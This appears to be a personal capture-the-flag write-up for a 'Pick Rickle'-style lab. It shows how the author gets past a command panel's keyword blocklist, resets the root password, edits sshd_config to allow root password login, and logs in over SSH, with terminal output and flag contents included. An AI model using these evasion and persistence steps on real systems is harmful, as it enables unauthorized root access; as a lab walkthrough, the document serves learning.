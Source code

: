2020-12-16


# Tips for command panel

## Redirect stderr to stdout 
`2>&1` allows you to see some more messages

`ls jkdfjdkfj 2>&1` will show error, whereas `ls jskdflkdf` will show nothing, becuase by default stderr isn't collected by the php script.


## Escape special html character to view .php content in the output box:
(Otherwise the browser will interpret it as normal html, and you would have a webpage inside of your box, super creepy)

```
sed 's/&/\&amp;/g; s/</\&lt;/g; s/>/\&gt;/g; s/"/\&quot;/g; s/'"'"'/\&#39;/g' [file]
```

## Third ingredient

3rd ingredient in in `/root`

I discovered this when I was trying to configure ssh server.


# My attempt to enable ssh

## Let's set a root password
Assuming we can't have interactive prompt, do this to change password

`echo root:root | sudo chpasswd 2>&1`

## Text manipulation on `/etc/ssh/sshd_config`

- use `sudo tee` here to direct output to file with root privilege
- need get around "Authentication" b/c it contains "cat", which is a forbidden pattern

```bash
VAR=PasswordAuthentica && sed "s/PermitRootLogin prohibit-password/PermitRootLogin yes/" /etc/ssh/sshd_config | sed "s/${VAR}tion no/${VAR}tion yes/" | sudo tee new-sshd
```

## move the new ssh daemon config to the correct place
```bash
sudo mv new-sshd /etc/ssh/sshd_config
```

## restart ssh
We can't use `sudo service restart ssh` b/c `service` contains `vi` which is forbidden...
```bash
sudo systemctl restart ssh
```

Now it works!
```
┌──(known㉿DESKTOP-DTPC4J5)-[~/cyb-python/notes/picklerick/archive]
└─$ ssh root@10.10.255.234
root@10.10.255.234's password:
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-1072-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  Get cloud support with Ubuntu Advantage Cloud Guest:
    http://www.ubuntu.com/business/services/cloud

60 packages can be updated.
43 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@ip-10-10-255-234:~# ls
3rd.txt  snap
root@ip-10-10-255-234:~#
```

And this makes things a LOT easier:

```
root@ip-10-10-255-234:~# cd
root@ip-10-10-255-234:~# sudo su ubuntu
ubuntu@ip-10-10-255-234:/root$ ls
ls: cannot open directory '.': Permission denied
ubuntu@ip-10-10-255-234:/root$ sudo ls
3rd.txt  snap
ubuntu@ip-10-10-255-234:/root$ cd
ubuntu@ip-10-10-255-234:~$ ls
ubuntu@ip-10-10-255-234:~$ pwd
/home/ubuntu
ubuntu@ip-10-10-255-234:~$ cd ../
ubuntu@ip-10-10-255-234:/home$ ls
rick  ubuntu
ubuntu@ip-10-10-255-234:/home$ cd rick
ubuntu@ip-10-10-255-234:/home/rick$ ls
second ingredients
ubuntu@ip-10-10-255-234:/home/rick$ cat second\ ingredients
1 jerry tear
ubuntu@ip-10-10-255-234:/home/rick$ exit
exit
root@ip-10-10-255-234:~# sudo su rick
No passwd entry for user 'rick'
root@ip-10-10-255-234:~# sudo su ubuntu
ubuntu@ip-10-10-255-234:/root$
```